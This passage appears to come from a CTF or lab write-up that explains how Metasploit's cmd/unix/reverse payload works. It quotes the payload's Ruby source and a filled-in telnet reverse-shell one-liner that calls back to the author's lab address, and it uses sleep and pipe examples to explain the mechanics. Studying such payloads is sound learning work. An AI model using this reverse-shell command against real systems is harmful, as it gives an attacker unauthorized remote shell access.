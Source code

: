 
That struck me as interesting. I found the source code for `cmd/unix/reverse`,
the default payload for this exploit:

    
    
    def command_string
      cmd =
        "sh -c '(sleep #{3600+rand(1024)}|" +
        "telnet #{datastore['LHOST']} #{datastore['LPORT']}|" +
        "while : ; do sh && break; done 2>&1|" +
        "telnet #{datastore['LHOST']} #{datastore['LPORT']}" +
        " >/dev/null 2>&1 &)'"
      return cmd
    end
    

That’s an interesting command string. Here’s what I think is happening. When
you pipe `sleep` into something, the next thing runs. If that thing is waiting
for input, it will block waiting for input. But if not, it will start running
immediately as well.

For example:

    
    
    $ time sleep 3 | sleep 3
    
    real    0m3.004s
    user    0m0.005s
    sys     0m0.001s
    

Since `sleep` doesn’t wait to read from stdin, the second command starts
immediately, and both finish about the same time.

If the second command finishes before the initial `sleep`, it still waits for the `sleep` to finish. So something like `sleep 3 | pwd` will print the working directory immediately, and then wait for the sleep to finish:
    
    
    $ time sleep 3 | pwd
    /home/df
    
    real    0m3.004s
    user    0m0.003s
    sys     0m0.002s
    

So in this payload, it’s using sleep to keep the payload running for some
minimum amount of time.

Looking at the rest of the command:

    
    
    (sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)
    

Next comes telnet back to me piped into a while true (`:` is true in a shell),
until the `sh` returns success, in which case it breaks, sends stderr to
stdout, and pipes that back into telnet back to me. The handler in Metasploit
must be smart enough to handle those two different telnet connections on the
same port.
